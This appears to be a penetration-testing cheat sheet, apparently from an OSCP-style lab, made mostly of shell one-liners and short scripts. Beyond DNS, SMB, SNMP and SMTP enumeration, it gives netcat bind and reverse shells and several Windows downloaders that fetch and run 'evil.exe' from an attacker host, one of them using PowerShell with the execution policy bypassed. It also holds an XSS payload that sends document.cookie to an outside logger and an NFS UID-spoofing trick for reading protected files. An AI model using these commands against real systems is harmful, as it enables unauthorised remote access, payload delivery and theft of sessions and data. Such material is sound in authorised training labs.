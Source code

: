 find / -name *.exe -exec file {} \; #search & execute comand  
updatedb #update local database of locate tool  
locate file.name #search file  
which file.name #search file  
################################################################################  
netstat -antp | grep sshd #all open ports with sshd  
update-rc.d ssh enable #enable ssh autorun  
rcconf #list all services  
################################################################################  
cat index.html | grep "href=" |cut -d"/" -f3|grep "host\.com"|cut -d'"' -f1|sort -u | more #extract & show all domains in index.html  
grep -o '[A-Za-z0-9_\.-]*\.*host.com' index.html|sort -u #second variant  
  
host www.host.com | grep "has address" |cut -d" " -f4 #extract all ip from host  
  
#######SCRIPT EXTRACTOR AND HOST FINDER#########################################  
#!/bin/bash  
for url in$(cat host.txt);do  
host $url| grep "has address"|cut -d" " -f4  
done  
################################################################################  
#######PING EACH HOSTS##########################################################  
#!/bin/bash  
for ip in$(seq 200 210); do  
echo 192.168.1.$ip |grep "bytes from" |cut -d" " -f4 |cut -d":" -f1 &  
done  
################################################################################  
  
#FILE TRANSFER  
nc -lnvp 4444 > incoming.exe  
nc -nv IPFROM 4444 </path/to/file/to/send  
#BIND SHELL  
nc -lvp 4444 -e cmd.exe  
nc -vn TARGETIP 4444  
#REVERSE SHELL  
nc -vn TARGETIP 4444 -e /bin/bash  
nc -lvp 4444  
  
ncat -lvp 4444 -e cmd.exe --allow 10.0.0.22 --ssl  
ncat -v 10.0.0.22 4444 --ssl  
  
#ZONE TRANSFER##################################################################  
#!/bin/bash  
if [ -z "$1" ]; then  
    echo "[*] Simple Zone transfer script"  
    echo "[*] Usage     : $0 <domain name> "  
    exit 0  
fi      
for server in $(host -t ns $1 |cut -d" " -f4);do  
        host -l $1 $server | grep "has address"  
done  
################################################################################  
host -t ns target.com #shows all ns records  
host -t mx target.com #shows all mx records  
################################################################################  
nc -nvv -w 1 -z TARGETIP 3385-3395 #TCP connect scanning  
nc -unvv -w 1 -z TARGETIP 3385-3395 #UDP scanning  
################################################################################  
nmap -sn TARGETIP #ICMP scan  
nmap #NSE Script scanning /usr/share/nmap/scripts  
nmap -p 139,445 --script=smb-enum-users IP #enumerate users on windows  
nmap -p 139,445 --script=smb-check-vulns --script-args=unsafe=1 IP #check vulnerability of host for smb attacks  
################################################################################  
nbtscan TARGETIP Or DIAPASONE  
################################################################################  
rpcclient -U "" TARGETIP  
    srvinfo  
    enumdomusers  
    getdompwinfo  
################################################################################  
enum4linux -v TARGETIP #enumerate host  
################################################################################  
for users in $(cat users.txt); do echo VRFY $user |nc -nv -w 1 IP PORT25 2>/dev/null|grep ^"250";done #enum users on smtp  
################################################################################  
#!/usr/bin/python  
import socket  
import sys  
if len(sys.argv) != 2:  
    print("Usage: vrfy.py <username>")  
    sys.exit(0)  
  
s=socket.socket(socket.AF_INET, socket.SOCK_STREAM) # create socket  
connect=s.connect(('TARGETIP',25))                  #connect to server  
banner=s.recv(1024)                                 #receive banner  
print(banner)  
s.send('VRFY ' + sys.argv[1]+'\r\n')                #VRFY user  
result=s.recv(1024)  
print(result)  
s.close()                                           #close socket  
################################################################################  
onesixtyone -c file.txt -i ips #list snmp versions  
snmpwalk -c public -v1 IP #enumerate snmp  
################################################################################  
ON LINUX  
mkdir /tftp  
atftpd --daemon --port 69 /tftp  
cp /usr/share/windows-binaries/bc.exe /tftp/  
ON WINDOWS  
tftp -i KALIHOST GET nc.exe  
################################################################################  
apt install pure-ftpd  
cat setup-ftp  
  
#!/bin/bash  
groupadd ftpgroup  
useradd -g ftpgroup -d /dev/null -s /etc ftpuser  
pure-pw useradd offsec -u ftpuser -d /ftphome  
pure-pw mkdb  
cd /etc/pure-ftpd/auth  
ln -s ../conf/PureDB 60pdb  
mkdir -p /ftphome  
chown -R ftpuser:ftpgroup /ftphome/  
/etc/init.d/pure-ftpd restart  
----------------  
cat ftp-commands  
ON WINDOWS  
echo open TARGETIP 21> ftp.txt  
echo offsec >> ftp.txt  
echo lab >> ftp.txt  
echo bin >> ftp.txt  
echo GET evil.exe >> ftp.txt  
echo bye >> ftp.txt  
ftp -s:ftp.txt  
----------------  
echo strUrl= WScript.Arguments.Item(0) > wget.vbs  
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs  
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs  
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs  
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs  
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs  
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs  
echo Err.Clear >> wget.vbs  
echo Set http = Nothing >> wget.vbs  
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1"),>> wget.vbs   
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs  
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs  
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs   
echo http.Open "GET", strURL, false >> wget.vbs  
echo http.Send >> wget.vbs  
echo varByteArray = http.ResponseBody >> wget.vbs  
echo Set http = Nothing >> wget.vbs  
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs  
echo Set ts = fs.CreateTextFile(StrFile,True) >> wget.vbs  
echo strData = "" >> wget.vbs  
echo strBuffer = "" >> wget.vbs  
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs  
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter+1,1))) >> wget.vbs  
echo Next >> wget.vbs   
echo ts.Close >> wget.vbs  
  
cscript wget.vbs http://192.168.10.5/evil.exe evil.exe  
  
-----------------  
echo $storageDir = $pwd > wget.ps1  
echo $webclient = New-Object System.Net.WebClient >>wget.ps1  
echo $url = "http://192.168.10.5/evil.exe">>wget.ps1  
echo $file = "new5exploit.exe" >>wget.ps1  
echo $webclient.DownloadFile($url,$file) >>wget.ps1  
  
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1  
-----------------  
<script>  
new Image().src="http://targetip/log.php?outpur="+document.cookie;  
</script>  
################################################################################  
host -t mx TARGETDOMAIN #shows all MX records for domain  
host -l domain nsserver #dns zone transfer  
dnsrecon -d domain -D domains.file -t brt #brute enum zone  
dnsenum domain #enum zone  
################################################################################  
sudo nbtscan -r hostname/24  
################################################################################  
nmap -sV -p 111 --script=rpcinfo TARGET #scan NFS shares  
#if found share do  
mkdir share  
sudo mount -o nolock TARGET:/SHARE ~/SHARE  
#if no access to file  
sudo adduser username  
sudo sed -i -e 's/1001/1014/g' /etc/passwd  
su username  
id  
cat secret/file.crd  
################################################################################